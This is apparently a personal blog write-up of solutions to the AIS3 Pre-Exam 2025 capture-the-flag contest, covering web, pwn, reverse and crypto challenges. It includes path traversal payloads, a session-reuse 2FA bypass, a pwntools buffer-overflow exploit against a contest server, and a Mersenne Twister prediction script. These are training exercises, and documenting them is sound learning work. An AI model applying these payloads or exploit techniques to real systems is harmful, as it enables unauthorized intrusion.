 ```yaml
---
title: "AIS3 Pre-Exam 2025 Write Up"
date: 2025-10-13T02:17:47+08:00
draft: false # Set 'false' to publish
tableOfContents: false # Enable/disable Table of Contents
description: ''
categories:
  - CTF 
tags:
  - Write Up
---
```


## Before Start...

翻到之前 6月 Pre-exam 要繳交的 WP，雖然題目的資訊沒記多少，寫的爛爛的，但還是放這留一下紀錄。  
阿不要問為什麼是寫英文  
![alt text](idk.png)  


[記分板](./IMG_0089.png)  

---

username: `hlc23`  
rank: `#106/389` 

## Tomorin db (web)
Path travel.
payload: `/%2fflag`  
I don't think this is expected solution, but it works.  
flag:`AIS3{G01ang_H2v3_a_c0O1_way!!!_Us3ing_C0NN3ct_M3Th07_L0l@T0m0r1n_1s_cute_D0_yo7_L0ve_t0MoRIN?}`

## Ramen CTF (misc)
OSINT    
scan left qrcode on receipt to get data (MF16879911)  
search on  
https://www.einvoice.nat.gov.tw/portal/btc/audit/btc601w/search  
flag: `AIS3{樂山溫泉拉麵:蝦拉麵}`

##  AIS3 Tiny Server - Web / Misc (misc)
path traversal to root  
payload: `../../.././../` to see the flag  

## web flag checker (rev)
decompile wasm use [wabt decompile](https://github.com/WebAssembly/wabt?tab=readme-ov-file#running-wasm-decompile)  
idk how to decrypto so ask ai.  
flag: `AIS3{W4SM_R3v3rsing_w17h_g0_4pp_39229dd}`  
```py
def reverse_rotate(value, shift):
    """反向旋轉位移操作"""
    shift = shift & 63
    return ((value >> shift) | (value << (64 - shift))) & 0xFFFFFFFFFFFFFFFF

# 已知的加密後的值
encrypted_values = [
    7577352992956835434,
    7148661717033493303,
    -7081446828746089091 & 0xFFFFFFFFFFFFFFFF,
    -7479441386887439825 & 0xFFFFFFFFFFFFFFFF,
    8046961146294847270
]

# 用於獲取位移量的魔數
magic = -39934163

flag = ""
for i in range(5):
    # 計算位移量
    shift = (magic >> (i * 6)) & 63
    
    # 反向旋轉
    decoded = reverse_rotate(encrypted_values[i], shift)
    
    # 將 64 位元整數轉換為 8 個字元
    for j in range(8):
        char = chr((decoded >> (j * 8)) & 0xFF)
        flag += char

print(flag)
```


## Login Screen 1 (web)
login as guest to `dashboard.php`. store the request with burpsuit repeater. then logout.   
login as admin in `index.php`. then send the stored request.  
the session will be the same as previous, but 2fa was checked. so as user name `admin` be use, we get the flag.  
flag: `AIS3{1.Es55y_SQL_1nJ3ct10n_w1th_2fa_IuABDADGeP0}`  

## AIS3 Tiny Server - Reverse (rev)
use `strings` see a `AIS3-Flag` and `Flag Correct!` text, open in IDA to see the string use at `0x23F4`, it is a if statement with condition function `0x1E20`  
reverse this function and get flag.  
flag: `AIS3{w0w_a_f1ag_check3r_1n_serv3r_1s_c00l!!!}`  

## Welcome to the World of Ave Mujica🌙 (pwn)
There is a `Welcome_to_the_world_of_Ave_Mujica` win function exist at `0x401256`, so return to it.  
In `read_Int8` function, not check the number is positive or not, so `-1` to bypass.    
the offset from `buf` to return address of main function is 168.  
so payload will be: `padding * 168` + `0x401256`  
flag: `AIS3{Ave Mujica🎭將奇蹟帶入日常中🛐(Fortuna💵💵💵)...Ave Mujica🎭為你獻上慈悲憐憫✝️(Lacrima😭🥲💦)..._a3572d8bdc809f8746aa35480079d5d8}`  
```py
from pwn import *

nc = "nc chals1.ais3.org 60126"
r = remote(nc.split()[1], int(nc.split()[2]))
r.recvuntil(b'?\n')
r.sendline(b'yes')
print('send yes')
r.recvuntil(b': ')
r.sendline(b'-1')
print('send -1')
r.recvuntil(b': ')

shell = 0x401256
payload = b''
payload += cyclic(168) # paddings
payload += p64(shell) # shellcode address

r.sendline(payload)
print('send payload')
r.interactive()
```

## Stream (crypto)

chal files: [stream.py](./stream.py) [output.txt](./output.txt)

From python doc  
> `getrandbits()` This method is supplied with the Mersenne Twister generator   

and the MT19937 can be predict by observing a sufficient number of consecutive outputs.

The `output.txt` give enough number to predict if we reverse the xor operation.  
Enum all sha512 of `os.urandom(True)`, brute force to find each `getrandbits(256)` and `math.isqrt()` to check.
so we can use mt19937predictor to predict the next number.
flag:`AIS3{no_more_junks...plz}`
```py
from math import isqrt
from hashlib import sha512
from mt19937predictor import MT19937Predictor

enum_urandom = [bytes([i]) for i in range(256)] # 256 possible values
sha512_hashes = [sha512(v).digest() for v in enum_urandom]

with open('output.txt', 'r') as f:
    lines = f.readlines()

predictor = MT19937Predictor()

for i in range(80):
    for e, h in enumerate(sha512_hashes):
        hash_byte = int.from_bytes(h)
        xor_value = int(lines[i].strip(), 16) ^ hash_byte
        
        root = isqrt(xor_value)
        if root * root == xor_value:
            predictor.setrandbits(root, 256)
            print(f"Recovered state for line {i}: {e:02x} (xor value: {xor_value:02x})")
            break

flag = int(lines[80].strip(), 16)
flag = flag ^ (predictor.getrandbits(256)**2)

byte_length = (flag.bit_length() + 7) // 8
bytes_result = flag.to_bytes(byte_length, 'big')
print(f"Recovered flag: {bytes_result}")
```

## A_simple_snake_game 
chal file [here](./snake.zip)  
In `SnakeGame::Screen::drawText`, found wired xor operation.
```cpp
for ( i = 0; ; ++i )
    {
      v4 = std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::length(v19);
      if ( i >= v4 )
        break;
      lpuexcpt = *(_BYTE *)std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator[](i);
      v9 = SnakeGame::hex_array1[i];
      *(_BYTE *)std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator[](i) = v9 ^ lpuexcpt;
    }
```
Find the xor array in data `0x04E3020`.
```
.data:004E3020 __ZN9SnakeGame10hex_array1E db 0C0h, 19h, 3Ah, 0FDh, 0CEh, 68h, 0DCh, 0F2h, 0Ch, 47h
.data:004E3020                                         ; DATA XREF: SnakeGame::Screen::drawText(int,int)+15C↑o
.data:004E302A                 db 0D4h, 86h, 0ABh, 57h, 39h, 0B5h, 3Ah, 8Dh, 13h, 47h
.data:004E3034                 db 3Fh, 7Fh, 71h, 98h, 6Dh, 13h, 0B4h, 1, 90h, 9Ch, 46h
.data:004E303F                 db 3Ah, 0C6h, 33h, 0C2h, 7Fh, 0DDh, 71h, 78h, 9Fh, 93h
.data:004E3049                 db 22h, 55h, 15h dup(0)
```
reverse the xor operation to get the flag.
flag:`AIS3{CH3aT_Eng1n3?_0fcau53_I_bo_1T_by_hAnD}`

---

## Afterword

WP 就上面這些。  

自從解出 Stream 之後 看到 Python random 都想做預測 lol  

記得當時 Vincent55 有出 [Misc] nocall 🈲📞 沒解出來但發現有留[題目](./pyjail.py)  
解答請見 [Github](https://github.com/Vincent550102/My-CTF-Challenge/tree/main/AIS3-preexam/2025)  

之後有翻到其他東西再補  